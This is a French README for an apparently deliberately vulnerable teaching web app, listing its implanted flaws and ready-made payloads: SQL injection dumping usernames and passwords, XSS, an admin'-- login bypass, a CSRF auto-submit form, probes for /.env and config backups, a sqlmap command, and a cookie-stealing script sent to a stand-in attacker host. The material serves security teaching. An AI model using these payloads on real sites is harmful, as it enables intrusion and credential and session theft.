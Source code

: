 # TheaterThreat - Plateforme Pédagogique de Sécurité Web

## 🚀 Installation

### Version Non-Sécurisée
Une application délibérément vulnérable pour apprendre la cybersécurité.

### Étapes pour lancer le site :
1. **Cloner le projet :**
    ```bash
    cd theaterthreat-vulnerable
    ```

2. **Lancer avec Docker :**
    ```bash
    docker-compose up -d
    ```

3. **Accéder au site :**
    Ouvrez votre navigateur et accédez à l'URL suivante : `http://localhost:8080`

---

## 🔥 Failles Implantées (À Tester)

### 1. Injection SQL
- **Attaque :**
  ```sql
  /?search=' UNION SELECT username, password FROM users--
  ```
- **Impact :** Vol de données sensibles (mots de passe en clair).
- **Où tester :** Champ de recherche ou formulaire de login.

### 2. Cross-Site Scripting (XSS)
- **Attaque :**
  ```html
  /?xss=<script>alert('Pwned!')</script>
  ```
- **Impact :** Exécution de code malveillant dans le navigateur des victimes.
- **Où tester :** Tout champ de saisie ou paramètre URL.

### 3. Bypass d'Authentification
- **Attaque :**
  ```
  Identifiant : admin'--
  Mot de passe : [vide]
  ```
- **Impact :** Accès admin sans mot de passe.
- **Où tester :** Page de login (`/login.php`).

### 4. Accès Non Autorisé
- **Attaque :**
  ```
  /admin.php  # Accès sans être connecté
  ```
- **Impact :** Modification/suppression de données sans permission.
- **Où tester :** URLs sensibles sans vérification de session.

### 5. CSRF (Cross-Site Request Forgery)
- **Attaque :**
  ```html
  <!-- Sur un site malveillant -->
  <form action="http://theaterthreat/admin/delete_all" method="POST">
     <button>Cliquez ici</button>
  </form>
  <script>document.forms[0].submit()</script>
  ```
- **Impact :** Actions non autorisées déclenchées à l'insu de l'utilisateur.
- **Où tester :** Actions sensibles (changement d'email, suppression).

### 6. Exposition de Données
- **Attaque :**
  ```
  /.env
  /config.php.bak
  ```
- **Impact :** Fuite de clés secrètes et configurations.
- **Où tester :** Accès direct aux fichiers sensibles.

---

## 🛠 Comment Tester ?

### Méthode Manuelle
- **Injection SQL :**
  - Entrez `' OR 1=1--` dans le champ de recherche → Tous les DVDs s'affichent.
  - Essayez `' UNION SELECT 1,username,password,1 FROM users--` pour voler les identifiants.

- **XSS :**
  - Ajoutez `<script>alert(1)</script>` dans n'importe quel champ → Une alerte s'affiche.

- **Bypass Auth :**
  - Connectez-vous avec `admin'--` et n'importe quel mot de passe → Accès admin.

- **CSRF :**
  - Créez un fichier HTML avec le formulaire ci-dessus → Ouverture déclenche une suppression.

### Outils Automatisés
- **SQLMap pour l'injection SQL :**
  ```bash
  sqlmap -u "http://localhost:8080/?search=test" --dbs
  ```
- **Burp Suite :**
  Interceptez les requêtes et modifiez les paramètres.

---

## 📚 Scénarios Pédagogiques

- **Démo XSS :**
  Montrez comment voler un cookie de session.
  ```javascript
  <script>fetch('http://attaquant.com/?cookie='+document.cookie)</script>
  ```

- **Démo SQLi :**
  Affichez tous les utilisateurs via :
  ```sql
  ' UNION SELECT 1,username,password,1 FROM users--
  ```

- **Démo CSRF :**
  Créez une fausse page qui supprime un compte silencieusement.

---

## 🛡 Comparaison Version Sécurisée

| Faille              | Version Vulnérable | Version Sécurisée         |
|---------------------|--------------------|---------------------------|
| Injection SQL       | ✅ Exploitable    | ❌ Requêtes paramétrées    |
| XSS                 | ✅ Possible       | ❌ Échappement HTML        |
| Bypass Auth         | ✅ Fonctionne     | ❌ 2FA/Hash bcrypt         |
| CSRF                | ✅ Non-protégé    | ❌ Tokens uniques          |

---

## ⚠️ Consignes de Sécurité

- Ne pas déployer en production.
- Utiliser uniquement en réseau local isolé.
- Effacer les données sensibles après utilisation.

